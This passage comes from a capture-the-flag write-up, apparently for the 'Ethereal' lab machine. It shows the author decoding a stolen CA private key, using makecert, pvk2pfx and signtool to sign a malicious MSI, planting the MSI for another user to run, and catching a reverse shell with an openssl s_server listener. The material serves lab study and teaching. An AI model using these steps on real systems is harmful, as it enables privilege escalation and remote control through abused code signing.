 ~~~
+XPjsy4564WZZJurWx10vlhPUpdKTGbF/QV+5b02FQiyR5HkWBtqKHRVyEdZB0l5
VFFUXWZBzYc//AqSfPZg19VcrGS2B8rU6oK/5dA4djw9oeYzpQDD5q6z/GlGrLCt
iwGht0fcUveev2+20QfAHkGMmK1l9ymFdABCxLxQ3RbsaRwFffzwIO7hICSjIPwP
8Lfl9SbLP1TqUhfmcWhDPNgBjvgI2HuiXOTOjqgo+ML8AP4t5ctAOV3idNqGA+8o
QfqbZIwXW8t3DhRMOQ+y+7kZAG+0Tl4W+64Z+WbpV5NQ4Lh5zSDmy0H3NookmLbM
k/+6gRKfzGSnvlxR8+yngqaJoCYziE/+F3k293lHyGz7swQ+/Pgn4VnKXJPJTHwM
Gh7npszdDimChYLZhdo8VKSPdIe1aBcwzlxWhKe8zU39ktBCVB6COH+X2rRlNXiv
vvvesEbLeD0y2vFxjWxCT1IcNMSe+NWLrRLVV1FlLtjTp+uIk8158Et7Mi5/i2h3
ic+SiTxnQceaA9VJHLXEp3yO7hKMEpH9amU41EtFVStmiRoO3S3Bv3gGmZNKxZGJ
aocRCf2Rc0AjRB2xbshYFx4hCpDPdXCZRzDIjJjxQEfl1rLxQqA5rz3/3K8SyJSL
S79t8hzxlqwZvuMkL8LJzJi4m9Bt9sc2IxMdka4oAHAvKNpoOi6fZKINibMP69xK
g7lubG3/Aft9LYH2DpSSt00WyPIqFIscvOqkzrBlJHW4Dj65gsdsBqKIvb0hdfpf
myOjgtyxIuox7xHZOTg0TjoOnw1oMAdlBLaDfRz91TDwdd5N6T83QXLy3gY=

root@kali:~# base64 -d MyCA.pvk.b64 > MyCA.pvk
{% endhighlight %}

We have to create our .pfx file and .cer file for the signature.<br>
{% highlight shell %}
C:\Program Files\Microsoft SDKs\Windows\v7.1\Bin>makecert.exe -n "CN=Ethereal" -pe -cy end -ic c:\tmp\MyCA.cer -iv c:\tmp\MyCA.pvk -sky signature -sv c:\tmp\ethereal.pvk c:\tmp\ethereal.cer
{% endhighlight %}

Makecert.exe requires password input but we don't need put anything ant click "ok"
![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2019-03-22/2019-03-20-17-16-24.png)

Then, execute following commands.
{% highlight shell %}
C:\Program Files\Microsoft SDKs\Windows\v7.1\Bin>pvk2pfx.exe -pvk c:\tmp\ethereal.pvk -spc c:\tmp\ethereal.cer -pfx c:\tmp\ethereal.pfx

C:\Program Files\Microsoft SDKs\Windows\v7.1\Bin>signtool.exe sign /f c:\tmp\ethereal.pfx c:\tmp\ethereal.msi
Done Adding Additional Store
Successfully signed: c:\tmp\ethereal.msi
{% endhighlight %}

After that, we have to upload the msi file. We can do this just like when we uploaded vs-mod.lnk.
{% highlight shell %}
C:\Users\jorge\Documents>copy c:\users\public\desktop\shortcuts\ethereal.msi d:\dev\msis\ethereal.msi & dir d:\dev\msis
        1 file(s) copied.
 Volume in drive D is Development
 Volume Serial Number is 54E5-37D1

 Directory of d:\dev\msis

03/21/2019  11:25 AM    <DIR>          .
03/21/2019  11:25 AM    <DIR>          ..
03/21/2019  10:34 AM           663,552 ethereal.msi
07/18/2018  09:47 PM               133 note.txt
               2 File(s)        663,685 bytes
               2 Dir(s)   8,436,850,688 bytes free
{% endhighlight %}

What we have to do is just rerun these ssl servers and wait for couple of minutes.<br>
After that, someone executes the uploaded msi and we can achieve a root shell.
{% highlight shell %}
root@kali:~# openssl s_server -quiet -key key.pem -cert cert.pem -port 136
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

~~~